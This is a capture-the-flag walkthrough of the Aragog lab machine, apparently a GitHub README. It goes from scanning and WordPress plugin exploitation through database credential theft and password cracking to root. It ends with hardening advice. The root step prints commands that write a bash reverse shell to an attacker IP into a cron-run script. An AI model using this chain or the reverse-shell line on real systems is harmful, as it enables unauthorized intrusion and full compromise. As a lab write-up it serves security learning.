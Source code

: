 #  Aragog CTF – Summary Walkthrough  

A full text-based breakdown of the **Aragog vulnerable machine**.  
This challenge demonstrates WordPress exploitation via a vulnerable plugin, horizontal privilege escalation through database credential reuse, and root compromise by abusing insecure cron jobs.  

##  Discovery  
- Ran nmap scan:  
nmap -sV -A <ip>

- Found ports:  
- 80 (HTTP – Web Server)  
- 22 (SSH)  

➡️ Insight: The target exposes a web application and remote SSH access.  

##  Enumeration  
- Ran Gobuster against HTTP service:  
gobuster dir -u http://<ip>/
-w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
-x txt,log,php,html,bak,zip

- Found:  
- `/blog` → Running **WordPress CMS**  
- `/javascript`  

- Extracted target domain name from `/blog` page source and added to `/etc/hosts`.  
- Enumerated WordPress with WPScan:  
wpscan --url http://<ip>/blog
-e vp --plugins-detection mixed
--api-token <token>

- Identified **vulnerable File Manager plugin**.  
- Verified exploit with `searchsploit`.  

✅ WordPress confirmed exploitable.  

##  Foothold  
- Loaded Metasploit and executed File Manager RCE module.  
- Successfully gained shell as **www-data**.  

✅ Initial foothold established.  

## User Escalation (www-data → hagrid98)  
- Uploaded and ran **linpeas.sh** in `/tmp`.  
- Extracted MySQL credentials → logged into database.  
mysql -u <username> -p<password>
SHOW DATABASES;
USE <db>;
SHOW TABLES;
SELECT * FROM <table_name>;

- Retrieved and cracked password hash for user **hagrid98** using John + rockyou.txt.  
- Switched to user account with cracked credentials.  

✅ Access as **hagrid98** achieved.  

##  Privilege Escalation (hagrid98 → root)  
- Uploaded **pspy64.py** to monitor running processes.  
- Observed recurring execution of `/opt/.backup.sh` by root.  
- File was world-writable → modified script to spawn reverse shell:  
```bash
echo '#!/bin/bash' > /opt/.backup.sh
echo 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1' >> /opt/.backup.sh
Set up listener → triggered by cron → reverse root shell gained.

✅ Full root compromise achieved 🎉

## Recommendations
WordPress Hardening
Remove unused/vulnerable plugins immediately.

Regularly patch WordPress core, themes, and plugins.

Restrict admin accounts with least privilege.

Deploy WAF to block automated exploit attempts.

Privilege Escalation Prevention
Lock down cron jobs — root-owned scripts must never be world-writable.

Enforce strict permissions (chmod 700).

Monitor scheduled tasks for unusual modifications.

📖 Full walkthrough with screenshots:
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/harry-potter-series-aragog-ctf-full-technical-walkthrough-39bda16f0187)

